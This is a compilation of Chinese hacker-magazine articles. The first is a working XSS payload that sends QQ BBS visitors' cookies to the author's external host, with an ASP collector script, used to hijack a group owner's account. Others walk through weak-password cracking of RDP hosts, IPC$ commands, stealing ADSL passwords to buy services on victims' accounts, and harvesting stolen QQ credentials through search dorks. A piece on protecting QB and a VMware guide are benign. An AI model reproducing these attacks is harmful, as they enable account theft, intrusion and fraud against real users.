再回到发表文章的地方仔细观察了一下，发现可以插入图片，顺便点了一下，在填写文章的地方出现了一个输入框，随便输点东西“xxx”，然后点击那个绿色的“钩”提交，结果提示要以“http”开头，如图 2。

如果可以登录 his QQ 就好了，但是不可能直接问他密码吧？看来只有找别的方法了，没想到还真让我给找到了！我就把过程给大家说说：大家都知道 QQ 群 BBS 上存在跨站漏洞（跨站攻击是指入侵者在远程 Web 页面的 HTML 代码中插入具有恶意目的的数据，使得用户认为该页面是可信赖的，但是当浏览器下载该页面，嵌入其中的脚本将被解释执行），所利用的就是这个漏洞！

最近在 QQ 上很少见到浪子，后来听说他天天隐身跟 MM 聊天，如此不厚道！我们另外几个群管准备“弹劾”他，没想到他先把我们群管的资格给取消了，谁叫人家是群主，但一个群怎么能他一个人说了算呢？看形势他是不要把权力交出来了，只有自己动手，衣食足食呢！

我又重新输入“http://H.R.T”，然后提交结果显示如下内容，如图 3。
从这里就可以看出两个问题：

- 服务器并没有对提交的内容检验，只要以“虎头牌”——“http://”开头就可以了。
- 跨站代码“[img]javascript:alert("试试")[/img]”中“[img][/img]”要大写。

现在我把代码换成大写的，如“[IMG]javascript:alert("试试")[/IMG]”，发表后再访问时如图 4。弹出“试试”的对话框，说明的确存在跨站问题。
关于漏洞是怎么产生的在这里就不讨论了，无非就是过滤不严的问题。然后把代码改造一下，写成可以得到访问者 Cookie 的代码，代码内容如下：“[IMG]javascript:document.location='http://www.chnping.com/xinyu/ly/asp.asp?msg='+document.cookie[/IMG]”这句代码的意思就是页面转向到“http://www.chnping.com/xinyu/ly/asp.asp”，而“http://www.chnping.com/xinyu/ly/”是我空间的一个目录，用于收集 Cookie 的就是 asp.asp 文件，后面的参数“+document.cookie”是获取访问者 Cookie 的代码。
“asp.asp”的内容如下：

```asp
<%
testfile=Server.MapPath("xx.txt") '把“xx.txt”文件的路径赋给 testfile
msg=Request("msg") '把接受的信息赋给“msg”
set fs=server.CreateObject("scripting.filesystemobject") '创建 filesystemobject 对象 fs
set thisfile=fs.OpenTextFile(testfile, 8, True, 0) '表示向“xx.txt”文件里追加内容，若指定文件不存在，则新建该文件
thisfile.WriteLine(""&msg&"") '向 xx.txt 里写入 "msg" 的内容
thisfile.close '关闭文件
set fs=nothing '释放对象
%>


```
只要懂点 ASP 的朋友都可以看懂这个文件，就是把获取的内容写到“xx.txt”里，如果不存在“xx.txt”，则会在 asp.asp 文件同一个目录下自动新建一个名为“xx.txt”的文本文件。把这个文件传到一个支持 ASP 的空间上，只要访问“xx.txt”就可以看到获取的 Cookie（另外一起打包的还有一个获取 Cookie 的 PHP 文件，大家有兴趣可以测试一下）。然后把代码输入到填写文章内容的地方，再给文章取一个“诱惑”的标题发表，自己可以先浏览一下看看效果，如果显示一片空白的话就说明成功了（asp 本身就是一个空白页面）。现在只要群管来看看帖子，他的“Cookie”就会被窃取！

现在浪子已经浏览了帖子，再来看看 Cookie 收集的情况，如图 5。可能是他浏览了帖子好几次，所以“xx.txt”文件里很多重复的 Cookie，那个“uin=o0000347**6”说明是浪子的 Cookie，因为 347**6 就是浪子的 QQ 号。复制其中的一条内容，再打开桂林老兵的“修改 Cookie 浏览器”，把复制的 Cookie 粘贴到 Cookie 修改框里，地址框就填上所在群的 BBS 的地址，如图 6。

连接后我就以浪子的身份登录了群空间，然后点击右边的空间管理把自己号设置为管理员就行了！可以看到我已经是管理员了！如图 7。其中还有问题要说明一下：获取的 Cookie 有一定的有效时间，过了有效期就不可以使用了；还有就是浏览这个帖子的人看到一片空白的内容会引起怀疑，最好在 asp.asp 里加点什么文字。本文没什么技术含量，只是用一些很基本的漏洞来攻击，希望能以抛砖引玉扩展大家的思路。欢迎大家到非安全论坛和我交流！

> 编辑点评：
> QQ 群跨站漏洞虽然修补过一次，但问题依然存在，被用来挂马是个不错的选择。如果你要采取管理操作，突破 Cookie 存活时间限制也不容易，除非你 24 小时在线等，其实我们还可以再利用代码直接 post 数据达到你的目的，这个就留给大家茶余饭后研究一下吧。

# 记一次完整刷 QQ 四钻

无情剑客 @ 梁泽滨

- 从本文你可以学到：
- 通过弱口令得到肉鸡
- 利用肉鸡账号刷 QQ 服务
刷 QB 总是一个流行的话题，很多兄弟都想不用自己花钱就能得到 QB，所以有很多人花时间去研究那东西。其实大家认真想想吧，用别人的钱为自己服务，将心比心吧，如果是你的电脑让人家这样弄，那你该怎么想呢？在文章的开头我想给大家一个忠告：请不要将自己的快乐建立在别人的痛苦上。

今天我写这篇文章是为了给被骇客入侵过的兄弟们演示一下他们到底是怎么被入侵的，当你们看完这篇文章后就应该知道怎样保护你的电脑了。

下面是一次完整的入侵过程。首先我们要找到对我也有价值的电脑，网上有很多动画都是利用 3389 入侵的，我这里也是演示这个。先拿出 L-ScanPort 2.0 扫描开了 3389 端口的电脑，如图 1。扫描好了，我们先导出 IP 列表，这样导出的 IP 都是开了 3389 端口的，我们导出的时候保存的文件应该是 TXT 格式，这样在后面要用到的。

虽然这些电脑开了 3389 端口，但是我们没有密码也等于是没有用的，所以我们一定要知道对方电脑管理员的密码才可以连接他。到了这里有兄弟肯定会问了，怎么才能知道他们的密码呢？呵呵，不要着急。下面我们请出 X-SCAN，我们用它来为我们破解弱口令的电脑密码，这样就可以免去我们一个一个地猜了。界面如图 2，接着我们打开设置里面的扫描模块，如图 3。

我们只选择扫描 NT-Server 弱口令，再来导入刚才扫出来的 3389 电脑的 IP，打开 X-SCAN 设置里面的扫描参数，如图 4。选择从文件获取主机列表，这样就能导入我们刚才的 IP 了。

# 酷玩

全部设置完毕，可以扫描了。按一下绿色的键就开始破解列表里的密码了，现在有一台电脑存在弱口令，如图5。我们进去看看它的详细信息，点击“查看报告”就出现图6的界面了，提示用户名和密码一样。接下来我们用到 AD 网络工具包，如图7。

点击主界面的“Win2000 远程管理”，输入要管理的 IP 和账号密码，就可以登录了，如图8所示。原来这电脑是用 2003 系统的啊，不管那么多了，先连接它的 Telnet 吧。打开 Win2000 远程管理工具里面的“打开远程计算机的 Telnet 服务”，如图9。
点击“启动”就会出现如图10的界面，确定之后输入用户名和密码就可以连接上去了，如图11就代表你已经连接成功了。
我们在 Telnet 输入 `net share` 看看对方的电脑开了什么共享，如图12。
既然对方开了 IPC$，我们就和它建立 IPC$ 连接吧。命令格式 `net use \\ip\ipc$ "密码" /user:"账号"`，如图13。

运行，输入对方的 `\\IP\C$` 再按回车就能访问对方的 C 盘了，如图14。
> 其实只要扫到弱口令就可以直接进行下面的操作了，而像启动 Telnet 这些，只是给你用来上传文件之类的、扩大战果的。如果对方是 XP 的系统，小编还是建议大家利用 3389，虽然 XP 的 3389 会把本地用户弹出去，容易被发现，但要在命令行模式进行提权是一件很难的事。
说到这里，我一点儿也没有提及到与刷四钻有关的东西，其实前面就是一个铺垫，也是整个过程的重要环节。既然我们扫描的电脑是开了 3389 的，我们就可以用 3389 连接器去连接这台电脑，连接成功之后就好像操作自己的电脑一样。这个时候我们就可以在这台电脑登录互联星空的一点通，为自己开通四钻了。（不过前提是这电脑没有人在，一般晚上很多人都是挂 QQ 的。）
由于远程界面涉及他人的机密，我就不在这里截图片了。我们在那台电脑上登录了互联星空，也并不是代表全部东西都可以注册，有的东西是要 ADSL 密码的。这里我们就要用到 ADSL 密码查看器了，如图15。只要是用软件拨号的都能查看出 ADSL 密码，有了密码之后就什么都能注册了啊！哈哈，登录互联星空 http://gd.vnet.cn/ 进入 QQ 服务 http://vnet.qq.com/gd/ 里面就能刷四钻了。这种方法虽然不高超，但是网上很多人都是这样弄的。还有一些高级的方法，就是用对方电脑做代理，在自己的电脑连接代理开通服务，就不会被人发现你动了他的电脑，但是这样弄很麻烦的。
入侵完成了，人家的目的达到了，大家应该知道系统安全的重要性了吧。所以注意设置系统密码不要过于简单，记得常打补丁，取消互联星空的服务，这样就能防止“送钱”给别人花了。

好了，文章就到这里了。期望下次有好文章一起分享吧。很久没有来支持《黑客X档案》了，请不要 K 我啊，我现在回到这个大家庭了。再会。

> **编辑点评：**  
> 方法虽然简单，但这的确是很多小黑正在做的，并且为了突破权限限制，小黑们放弃了相对隐蔽的命令行，选择了 3389 登录。如果你的电脑忽然被注销，那你可要注意了。文章让小编不禁想起了前段时间的克隆系统弱口令事件，那时就有很多人账号被盗，其实方法很简单，全如本文所述。

## 拿什么拯救你我的QB

马成[H.C]

# 从本文你可以学到：
- 通过查询记录知道是谁盗用你的 QB
- 简单的设置防止 QB 被盗用

现在的网络真可以说是不安全啊，天天听见同事、同学说自己的 QB 被盗了。可不，今天女朋友的 QB 被盗了，好啊，竟然欺负到我的头上来了，自己女朋友的 QB 被盗，还说自己是玩安全的，说出去不笑死人啊。看我怎么拯救你——我的 QB。

当我们消费 QB 的时候，腾讯那边的服务器都是有记录的，这样对于我们 QB 的去向就一目了然了。首先我们去 QQ 的充值中心看看，地址是 pay.qq.com（图1）。点“个人账户管理”就到了如图2的界面。

然后就登进去了，进去以后点击“个人账户”里面的“QB 管理”，我们可以看到如图3的界面。在这里可以查询自己的消费记录了。
大家都知道登录 QQ 需要密码（小菜：这不是废话吗？小心板砖伺候），盗号的人知道了我们的密码就可以消费我们的 QB 了。虽然直接转账转不了，但是完全可以通过赠送 QQ 相关业务而把我们的 QB 花光。今天我就教大家个方法，想必细心的读者也看到了上面的“设置账户支付密码”。对，只要我们把“支付账户密码”设置起来，而“支付密码”不要和 QQ 密码一样，如图4。

这样，即使盗号的人知道了你的密码，也消费不了你的 QB。但是我们点“设置账户消费限额”的时候，在这里最少要填 1QB，如图5。

这样的话，只要每天消费超过 1QB，账户就锁定了，想要继续消费就得有支付密码。1QB 现在可以干什么用啊？最多就是 QQ 宠物食物可以买。我们来看看限制消费限额的效果，如图6。

呵呵，但是这样要是时间长了，盗号的人还是会慢慢地把我们的 QB 消费光。所以，大家不要忘了申请好密码保护哦。这样，当过几天你的账户上面的 QB 少了点的话，你就应该知道自己的号码不安全了，立即换密码，就可以避免大量 QB 被盗的危险。但是我在这里还是要给大家提醒下，**申请好密码保护，因为密码保护是防止盗号的最好方法**。网上流传着的修改密码保护的证件号码根本不可用，为此我也特意打电话到了腾讯去，他们也说证件号码一经登记就不能改的，所以还是那句话：做人要厚道。

文章没什么技术含量，只是给大家一种方法，还有就是遇到问题要善于自己去解决，这样对自己也是有好处的。

> **编辑点评：**  
> 这只能算是一种被动的防御方法，但总比没有好。真正要安全，你需要的还是一个强悍的密码，并且在网吧之类不能保证安全的地方登录以后，走前最好改一下密码。
## 你盗QQ我来用

## 从本文中你可以学到
- 简单批量获得 QQ 以及密码的方法

大家好，我今天教大家怎么坐收渔人之利，直接获得盗号者盗取的 QQ。方法很简单，不用种木马，也不用破盗号者的邮箱，而且成功率很高，利用的是盗号软件默认文件名的小漏洞。

阿拉 QQ 大盗，大家应该玩过吧，它的默认的收信格式是 `qq.txt`，极限居是 `Mz.txt`，QQ 冲击波的是 `QQCJB.txt`。很多人在配置时候都没有改默认的收信文件，我们利用的就是这个配置上的小漏洞。我先来演示一下，就拿阿拉大盗的收信文件 `qq.txt` 来测试下吧。打开挖掘鸡，在关键词里写上 `inurl:qq.txt`，点击开始，等个几分钟，有四五十个页面，还没有扫描完，先关了。还可以直接用 Google 搜索，都差不多的，随便打开一个看看，如图1。
还可以吧，好像有几百个的样子。先在本地新建一个文本文件，把所有的内容都存到里面。这么多 QQ，如果一个一个地试，那不要累死。大家记不记得我们原来有个工具叫 TENY QQ，好像是用于批量挂 QQ 的软件，它可以同时验证上百个 QQ，而且它要求的格式和现在盗取的 QQ 的内容格式是一样的：QQ 号码——QQ 密码。马上导入一部分 QQ 试试看，如图2。

运气不错，一下子就弄到了 7 个 QQ 了，大家自己下去可以玩吧，说不定运气好的，还可以弄到极品 QQ 号呢。

> [文中涉及的工具“挖掘鸡”和“TENY QQ”在光盘有收录]  
> **编辑点评：**  
> 简单的傻瓜工具文章，各位渔人，还等什么，快去啊！注意要看看有没有自己的号码在里面啊！

**星言昔语**

转眼又到 11 月，快到秋天不回来的季节了。秋已过，天甚凉，鸿雁下斜阳……哈，“即兴”；喝着西北风让偶听到了冬天脚步的声音，各位朋友，工作之余可别忘记照顾自己哦，身体可是革命的本钱。本期 Q 版给大家准备了丰盛的大餐，先看如何玩转 VMWARE WORKSTATION，How to 搭建你自己的黑客实验平台；再看网易的新洞洞，简单易砸哦！真是网易啊！还有高手带你体验 Windows XP 下的多用户登录……精彩不断啊，傻等什么呢，还不快上 Q 版！

## VMWARE 虚拟机使用总结

四川大学信息安全研究所 刘神/maxell

## 从本文中你可以学到：
- VMWARE 的安装
- VMWARE 虚拟机的几种使用技巧
- VMWARE 联网的几种方式
- 如何自定义 VMWARE 虚拟机

### 一、VMWARE 简介

VMWARE 是一个“虚拟机”软件，它使你可以在一台机器上同时运行两个或更多 Windows 系列、Linux、DOS 等系统。由于它是从本地计算机上划出一部分硬盘空间和物理内存存储的仿真虚拟计算机，能够模拟主板、内存、硬盘（IDE 和 SCSI）、DVD/CD-ROM、软驱、网卡、声卡、串口、并口和 USB 口等设备，因此是真正意义上的多系统同时运行。

对于我们的工作和学习，特别是黑客学习，VMWARE 更是不可或缺的利器，其表现在如下几个方面：

第一，对于初学者，真实的网络环境往往是复杂的，不容易把握的。因此需要用 VMWARE 模拟出一个服务器来，而这个服务器是我们事先设定好的，存在缓冲区溢出、IPC$、弱口令等各种各样的漏洞，这些条件在真实的网络中是可遇而不可求的。在这些服务器上我们可以进行黑客入门的一些必要操作，动手实践往往能让我们的学习事半功倍。

第二，对于操作系统漏洞的调试是涉及到系统内核的，因此溢出的触发往往会导致操作系统的崩溃，轻则重启，重则瘫痪，因此在本机上调试对工作会造成很大的影响。而在虚拟机上调试，系统崩溃让它自己重启，实在不行就恢复快照，我们的工作可以照样进行。

第三，对于网管来说，由于 VMWARE 出色的独立工作特性和网络功能，可以在一台服务器上实现多种服务器架构的任意搭配。比如我们可以在本机上使用 Windows 提供支持 ASP、ASPX、PHP、JSP 的 Web 服务，在虚拟机上使用 Linux 提供一些基于 Web 的业务。

### 二、VMWARE 系统使用技巧

### 1、系统安装

我使用的是 VMWARE WORKSTATION 5.0 简体中文版，对于 VMWARE 这个软件的安装，我没有什么好说的，反正是一直 Next 下去即可。VMWARE 安装好之后新建虚拟机，“虚拟机配置”建议使用“自定义”，“虚拟机格式”建议使用“新的 WORKSTATION 5.0”，硬盘空间视你的系统和要求而定，如果没有特殊的要求，Windows 一般分配 5G 空间，Linux 分配 10G 空间足够了；内存建议略低于你本机总内存的一半，其他按照它默认的选项即可。安装系统时，VMWARE 默认从光驱启动，不需要调整 BIOS 设置，其他跟普通系统的安装没有区别。系统安装好之后记得要把 VMWARE 工具安装好，它对图像和鼠标提供更好的支持，跟显卡驱动类似。

### 2、系统配置

##### (1) 快照

系统安装完成之后，我们应该对新系统制作快照。这里所谓的快照和平时我们使用的 Ghost 差不多，即记录当前系统内容、硬盘、进程等使用情况到一个快照文件，到时候只要从这个文件中导出，系统就能完完全全恢复到制作快照时的状态，包括虚拟机硬盘上的、系统内存的、注册表内的所有数据。因此对于调试系统漏洞造成的系统崩溃，快照是非常好的解决手段。
首先点击“制作虚拟机快照”按钮，然后在“名称”栏内可以写上制作快照的日期，在“描述栏”里面写上制作快照系统的特征，如“裸机”“安装过 MSSQL”“安装了 MySQL”等等，以便将来准确恢复到自己想要的系统状态。如图1所示。
制作虚拟机快照完成后，我们又如何来恢复快照呢？我们可以点击“恢复虚拟机到它的父快照”按钮来恢复到上次建立的快照时的系统状态，也可以点击“管理虚拟机的快照”按钮，在里面选择你要恢复的系统状态。如图2所示。

##### (2) 虚拟机中的光驱
虚拟机默认使用的是物理光驱，也就是说虚拟机系统与你的本机系统使用的是一个光驱。如果我们需要用到光盘在虚拟机中安装软件的话，直接将光盘放入你的光驱中即可。如果你想使用 ISO 文件（也就是我们常说的镜像文件）安装软件的话，读者们可以首先想到的就是把虚拟机的硬盘映射到本地，然后将 ISO 文件传到虚拟机的硬盘中，再安装诸如 Daemon 之类的虚拟光驱软件载入 ISO 文件安装吧！其实不需要如此麻烦，虚拟机提供了一个虚拟光驱接口，可以将本机的 ISO 文件直接映射到虚拟机的光驱中。我们在“虚拟机”栏中选择“设置”选项，然后点击“CD-ROM（IDE 1:0）”，就可以看到虚拟机光驱当前的状态为“自动检测的物理驱动器”，如图3所示。
为了安装 ISO 文件，我们将选项改为“使用 ISO 映像”，然后点击浏览，在本机上选择需要安装的 ISO 文件，我们这里选择 Office 2003 的光盘镜像，如图4所示。
确定之后，就可以看到在虚拟机的光驱中出现了我本机的 Office 镜像文件，如图5所示。

这样安装是不是很方便，既加快了安装速度，又节省了硬盘空间。

##### (3) 虚拟机的硬盘

为什么说使用虚拟机上虚拟光驱接口可以节省硬盘空间呢？我将 ISO 文件传到虚拟机中，使用之后删了不就一样了吗？说到了这里，就不能不说下虚拟机的硬盘了。因为虚拟机的硬盘默认特性是这样的：我们给虚拟机分配了多少空间并不是一次到位，而是虚拟机使用多少空间就向本机的硬盘申请多少，一直到我们给它分配的定额为止。比方说我们新装了一个 Win2000 Server 的裸机，这个时候本机上的虚拟机硬盘文件大小也就是 1.5G 左右，随着我们安装了 MSSQL、MySQL 等软件之后，本机上的虚拟机硬盘文件大小会变成 2.5G 左右，而且随着我们对虚拟机应用的增多，这个数字也会不断增大，一直到我给虚拟机分配的 5G 硬盘空间被完全塞满为止（这里需要注意的是本机上的虚拟机硬盘文件大小和虚拟机硬盘空间大小是不一致的，一般前者要比后者大一些，所以这个时候硬盘文件大小应该是大于 5G 的）。但是在这个时候我卸载了 MSSQL，或者删除了我传到虚拟机硬盘中的一个 500M 的文件，虚拟机的硬盘也不会因为你这样的操作而归还原先从主机硬盘上申请的磁盘空间，也就是说本机上的虚拟机硬盘文件大小不会因此而减小。对于我等硬盘本来就不够用的群众来说，这是一个多么大的损失，因此我们对虚拟机的硬盘进行操作时要慎重而行，同时这也是我积极主张建立快照的原因之一。

### 3、网络配置
##### (1) 桥接（直接连接到物理网络）

虚拟机默认的网络配置使用的是桥接方式，如果本机所在的网络为 LAN，能自动分配 IP 或者指定 IP，使用桥接方式就能使虚拟机系统像本机一样直接连接到物理网络去。

配置方式如下所示：假设本机所在为 192.168.0.* 的一个内网，整个内网通过 192.168.0.1 这个网关连接 Internet。我们在“虚拟机”栏中选择“设置”选项，然后：

```text
C:\>ipconfig

Windows 2000 IP Configuration

Ethernet adapter 本地连接:

        Connection-specific DNS Suffix  . :
        IP Address. . . . . . . . . . . . : 192.168.0.3
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.0.1

图7 虚拟机的当前IP
```

```text
C:\>tracert 202.115.32.36

Tracing route to 202.115.32.36 over a maximum of 30 hops

  1   <10 ms   <10 ms   <10 ms  192.168.0.1
  2   <10 ms   <10 ms   <10 ms  202.115...
  3   <10 ms   <10 ms   <10 ms  10.10.34.2
  4   <10 ms   <10 ms   <10 ms  202.115.32.36

Trace complete.

图8 虚拟机到指定IP的路由表


```后点击“以太网”选项，选择当前的网络连接方式为“桥接”。如图 6 所示。

确定之后，点开虚拟机系统中的“Internet 协议（TCP/IP）属性”对话框，如果这个内网开通了 DHCP 服务，那我们选择“自动获取 IP 地址”即可连接上 Internet；如果没有开通 DHCP 服务，我们手动配置虚拟机 IP 即可。配好后，检验一下，显示虚拟机的 IP 为 192.168.0.3，如图 7 所示。

显示到 202.115.32.36（我们学校的 DNS 服务器）的路由表，可以清楚地看到虚拟机是通过网关 192.168.0.1 出去的。如图 8 所示。

#### （2）NAT（用来共享主机的 IP 地址）

NAT 用于将一个地址域（如专用 Intranet）映射到另一个地址域（如 Internet）的标准方法。比如说我采用的是拨号方式上网，只能分配到一个 IP。如果采用桥接的方式，在本机上拨号，虚拟机就不能上网；在虚拟机上拨号，本机就不能上网。针对这种只有一个 IP 的情况，我们就可以在虚拟机上采用 NAT 方式进行网络连接。

安装虚拟机的时候，VMware 会为本机另外建立两个网络连接，名字分别为 VMware Network Adapter VMnet1 和 VMware Network Adapter VMnet8，这两个网络连接的默认配置是自动获取 IP 地址和 DNS 地址，如果不是的话，读者可以先改过来。如图 9 所示。

我们可以清楚地看到 VMnet1（192.168.242.1）和 VMnet8（192.168.147.1）这两个网络连接对应的都是标准的内网地址，这两个网络连接相当于两个虚拟网卡，它有自己的 MAC 地址，并且和主机的 MAC 地址不同，但就物理层而言它们都是通过一个网卡出去的。这样一来，相当于本机上绑定了三个 IP。VMware 为虚拟机构造一个虚拟内网，这个内网的网关为 192.168.147.2，而 VMnet8（192.168.147.1）相当于一个 NAT Switch，将 192.168.147.* 这个 IP 段内的地址映射到本机的地址上，也就是图 8 中 202.115 开头的那个 IP。我们先在“虚拟机”栏中选择“设置”选项，然后点击“以太网”选项，选择当前的网络连接方式为“NAT”，然后将虚拟机中的网络连接做如下配置，就可以达到用本机一个拨号，本机和虚拟机同时上网的目的。如图 10 所示。

#### （3）仅主机（私有网络和主机共享）

当我们对虚拟机进行某些测试时，不想外面的主机访问到虚拟机，只能由本机进行访问，我们就可以采用这种网络连接方式。在前面我们说到了 VMnet1（192.168.242.1），现在就要派上用场了。VMware 通过 VMnet1 构造了另一种形式的内网，这个内网包括了 192.168.242.* 这个 IP 段，VMnet1（192.168.242.1）相当于一个路由器，实现了 192.168.242.* 与本机 IP（202.115.*.*）之间的访问。
我们先在“虚拟机”栏中选择“设置”选项，然后点击“以太网”选项，选择当前的网络连接方式为“仅主机”，然后将虚拟机中的网络连接做如下配置，就可以达到只有本机能对虚拟机进行网络访问的目的，如图 11 所示。

#### （4）自定义

当虚拟机正在采用 NAT 或者仅主机方式进行网络连接时，如果我们需要将虚拟机的 IP 设定为我们要求的 IP 段，我们可以采用自定义 VMnet1 和 VMnet8 地址的方式实现。

比方说我们需要采用“仅主机”的方式访问网络，而且我们需要指定虚拟机的 IP 为 192.168.111.* 这个 IP 段内的，就可以将 VMnet1 的“Internet 协议（TCP/IP）属性”做如下配置，如图 12 所示。

然后将虚拟机中的“Internet 协议（TCP/IP）属性”配置成下面的数据即可。如图 13 所示。

### 4、屏幕记录

我们可以通过“虚拟机”栏中的“抓取屏幕”选项将当前的虚拟机屏幕状态以 BMP 格式保存到本机的硬盘中。如果想将我们在虚拟机中的屏幕操作完全记录下来，做教学或者资料用，我们就可以通过“虚拟机”栏中的“捕获电影”选项，将我们在捕获期间对虚拟机的屏幕操作以 AVI 格式保存到本机的硬盘中，而且一分钟才 600 多 K，用于制作黑客教学视频是再好不过了。

### 5、虚拟机开机启动

可能一些网管朋友想将 VMware 作为服务器平台，利用另外的系统提供一些额外的服务。这里就涉及到一个问题，如何将虚拟机系统和本机系统保持行动上的一致，也就是说，本机开，虚拟机也开，本机关，虚拟机也关。因为如果每次服务器重启，都需要管理员手动开启虚拟机的话，一来不方便，二来不可靠。关机自不必说，而开机的问题就需要我们来解决了。

我们先在“虚拟机”栏中选择“设置”，然后进入“选项”栏，点击“电源”，在右边的“打开此虚拟机后打开电源”前面打上勾。如图 14 所示。

确定后再将桌面上的 VMware 的图标放入本机的“C:\Documents and Settings\Administrator\「开始」菜单\程序\启动”这个目录下，如图 15 所示。每次本机开机后，虚拟机系统就会自动启动了。

## 6、其它小技巧

#### （1）挂起

平时我们使用虚拟机完毕的时候不需要每次都关闭电源，那样的话下次开虚拟机的时候需要花费大量时间，我们可以点击“挂起”按钮，如图 16 所示。

这样的话，VMware 会将系统当前的状态保存下来，下次打开电源的时候，虚拟机就直接恢复到挂起前的系统状态了，而且速度很快，原理跟 Windows 下面的休眠差不多。

#### （2）黑客技术实践平台

一些刚入门的小黑客们往往会为一些基础的黑客技术实践平台而发愁，因为真实网络中针对这些技术的漏洞已经寥寥可数，而在本机上构造漏洞来实践的话，无疑是将自己的电脑置于十分危险的境地。VMware 的出现解决了这些难题，我们可以在虚拟机上安装 Windows 2000 Server 版本的操作系统（没打过任何补丁的），然后安装 MSSQL 2000 和 MySQL 4.0 左右版本的数据库，再通过安装的数据库和 Windows 提供的 IIS 服务器，配合从网上下载的各种有脚本漏洞的整站程序来开通 Web 服务，我们就可以进行一些基本的 CMD 命令、IPC$ 漏洞的利用、缓冲区溢出漏洞的分析与利用、脚本漏洞的分析与利用、一些新软件的测试等操作。有这些知识做基础，相信我们的黑客技术学习会事半功倍。

# 三、总结

这篇文章是根据我长期使用 VMware 的经验总结出来的，欢迎大家批评指正。如果大家还有不懂的地方，或者对 VMware 的一些好的利用方法或技巧，也可以来《黑客手册》论坛与我讨论。

> **编辑点评：**
> 很系统的一篇 VMware Workstation 教程，从简介到安装再到使用，相信读过本文后菜鸟朋友可以很快对 VMware 上手。虚拟机一直是偶然想要使用的东西，可惜一直没有机会。VMware 在虚拟机中算是妇孺皆知了吧，小编认为虚拟机对于黑客的贡献不仅仅有作者提到的危险调试和各种有风险的实验，更重要的是，它提供给用户一个虚拟的网络，学习网络的朋友可以通过这个虚拟网络学习相关知识和进行各种网络测试，而不用在两台或更多台网络设备之间来回奔波。网络对于黑客的重要性不言而喻，有时候本地测试成功并不代表在网络上同样成功，网络中存在很多不稳定和未知因素（很多是实验者未知），而这些正是我们可以通过虚拟网络学习到的。希望这篇文章对愿意使用或者已经在使用 VMware 的朋友带来帮助。VMware Workstation 在前期杂志光盘均有收录。

# 体验 Windows XP 的多用户登录

- **从本文中你可以学到：**
- 手工实现 Windows XP 多用户登录的方法
- 使用工具实现多用户登录

说到系统中的 3389 端口，人们往往就会联想到“远程桌面”与“终端服务”这两项功能。由于它们都是 Windows 系统的组件，并且作用都很相似，所以很多人都以为这两项功能其实就是一个功能，只是名称的不同而已。其实“远程桌面”与“终端服务”还是有很多的不同点的，其中最大的区别就是远程桌面最多只允许两个管理员登录的进程，而终端服务没有限制。今天我就为大家介绍两个方法，让 Windows XP 的用户能够多用户同时进行登录操作。

## 一、偷梁换柱

首先准备一份版本较早的 XP SP2 的 Beta 版，因为微软在 SP2 还处在编号为 2055 的测试版时就公开了一个“供多人同时在不同地点登录”的新特性。可是这个新特性在 SP2 正式版中却取消了。所以我们只需要 2055 版中用于管理远程登录服务的系统文件 TermSrv.DLL（小编：位于 %systemroot%\system32 目录下）替换掉当前系统中的 TermSrv.DLL 文件，即可享受这个全新的特性。
图 1 系统属性中设置允许远程连接

- 1. 首先是在 Windows XP 上安装 SP2 的正式版。接着在桌面“我的电脑”上点鼠标右键选择“属性”，在弹出的属性设置窗口中找到“远程”标签，然后在远程桌面处的“允许用户远程连接到此计算机”前打勾即可开启远程桌面功能，如图 1。
- 2. 在默认状态下，Windows XP SP2 系统关闭了许多用户同时登录的新特性，所以我们需要修改注册表内容来打开这个新特性。打开注册表编辑器，找到 HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Terminal Server\Licensing Core 分支，新建一个名为 EnableConcurrentSessions 的 DWORD 值，将键值设置为“1”，就可以让 Windows XP 支持两个用户，如图 2。

使用此法实现多用户登录时最多只允许两个用户同时登录，并且登录的必须为不同的账号。

- 3. 启动 Windows XP 到安全模式，把 Windows XP 里面 SP2 正式版的所有 TermSrv.DLL 备份一下，在所有 TermSrv.DLL 文件出现的位置，用 Build 2055 版本的 TermSrv.DLL 文件覆盖。如果用户是多系统，可以启动另一个系统来访问 Windows XP 系统分区进行 TermSrv.DLL 文件的覆盖操作。
- 4. 用正常模式启动 Windows XP，如果系统的文件保护功能提示说 TermSrv.DLL 文件已被修改，询问用户是否要复原，直接选择“否”即可。从此以后，我们就可以多用户同时控制系统了。现在网上有很多版本的 XP，其实作者就是通过这个 DLL 文件进行替换，并添加了名为 NEW 的账户。因为这样的 XP 版本使用非常广，所以只要搜索 3389 端口，通过这个隐蔽的账户进行连接登录，就可以获得大量的肉鸡了。
图 2 新建注册表键值打开远程登录新特性

## 二、第三方工具

### WinConnect Server XP

我们也可以通过第三方软件来解决 XP 下的多用户访问远程桌面功能，比如由博软软件开发的 WinConnect Server，可以让我们突破限制，让多用户同时进行 Windows XP 之旅。根据官方说明，只要提供远程登录的计算机硬件配置足够好，使用该软件最多可以同时让 21 个用户通过“远程桌面”功能连接到这台远程计算机。

#### 1、本地设置

首先在需要实现多用户登录的系统中安装 WinConnect Server XP，安装完成后需要重新启动系统。重启系统后软件会出现测试版“只能使用 7 天，每次连接不能持续超过 30 分钟”的限制提示，用户注册以后就不会出现这个提示窗口了。在 WinConnect Server XP 控制台中对主机的主属性设置极为简单。首先在左侧的主机列表中选中当前主机，单击“动作”菜单中的“属性”，此时程序会显示出当前主机的服务器信息、服务器设置信息、RDP 设置等内容，以列表的形式显示出来，如图 3。
从图中我们可以看到，在某些列表项的前面标有“>”这样的符号，这说明此列表项是可以进行设置的，用户只需要双击该项目后在弹出的对话框中进行相关的设定即可。比如要设置每个连接到主机的远程桌面客户端在退出的时候删除临时文件夹，我们只需双击“退出时删除临时文件夹”选项，然后在弹出的对话框中选择“是”，最后单击“确定”按钮即可，如图 4。
#### 2、程序操作

设置完毕后，一个支持多用户登录的 Windows XP 就架设成功了。我同时使用 Administrator 这个账户进行登录安装了 WinConnect Server XP 的远程计算机，结果它并没有黑屏自动退出登录，也就证明了各个连接用户之间是相互独立的，相互之间并不影响，这样也就实现了多用户同时登录的功能。并且我发现 WinConnect Server XP 和 Windows Server 版的系统一样，同一个账户可以建立多个连接。用户在 WinConnect Server XP 窗口双击“终端服务器”，就可以在其中查看终端服务器的一些属性，如图 5。

